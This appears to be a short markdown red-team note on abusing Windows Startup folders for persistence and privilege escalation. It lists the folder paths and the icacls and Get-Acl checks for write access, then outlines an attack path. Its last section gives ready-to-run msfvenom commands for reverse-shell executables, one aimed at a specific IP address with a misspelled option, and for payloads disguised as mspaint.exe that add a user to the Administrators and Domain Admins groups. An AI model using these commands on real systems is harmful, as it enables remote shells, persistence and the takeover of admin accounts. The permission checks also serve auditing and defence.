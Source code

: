 **Startup folders** can be abused by attackers (or red teamers) to **persists** on a system or escalate privileges if permissions are misconfigured

---

### 1. User-Level Startup Folder

*   **Path**

```cmd
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

* **Risk**

    *   Any Standard user can place a malicious script or executable here
    *   It will run on next login with **user privileges**
    *   Not privilege escalation, but **persistence** is possible    
---

### 2. All Users Startup Folder

*   **Path**

```cmd
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

* **Risk**

    *   If a non-admin user has **write access**  to this folder:
        *   they can place a malicous file here.
        *   it will run with the **privilege of whoever logs in**, including **admins** - this is **privilege escalation**

*   Check Permissions:

```cmd
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

```powershell
Get-Acl "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | Format-List
```

Look for entries like ``Everyone:(F)`` or ``Users:(M)`` - this is a red flag

---

### 3. Exploitation Path

**Attack Path Example**

1.  Attacker compromises a **low-privilege account**
2.  Checks if ``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`` is **writable**
3.  Drops a **payload** or **reverse shell** shortcut/executable there.
4.  Waits for an **admin user to log in**
5.  Payload executes with **elevated rights**


---

### 4. Generate Custom Payload

**Reverse Shell Example**

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

**Encoded x64 Reverse Shell**

```bash
msfvenom --platform windows --arch x64 --payload windows/shell/reverse_tcp LOST=192.168.29.218 LPORT=443 --encoder x64/xor --iteration 9 -f exe --out rshell.exe
```

**Add User to Admin Group**

```bash
msfvenom -p windows/exec CMD='net localgroup administrators u1 /add' -f exe -o mspaint.exe
```

```bash
msfvenom -p windows/exec CMD='net group "Domain Admins" u1 /add /DOMAIN' -f exe -o mspaint.exe
```
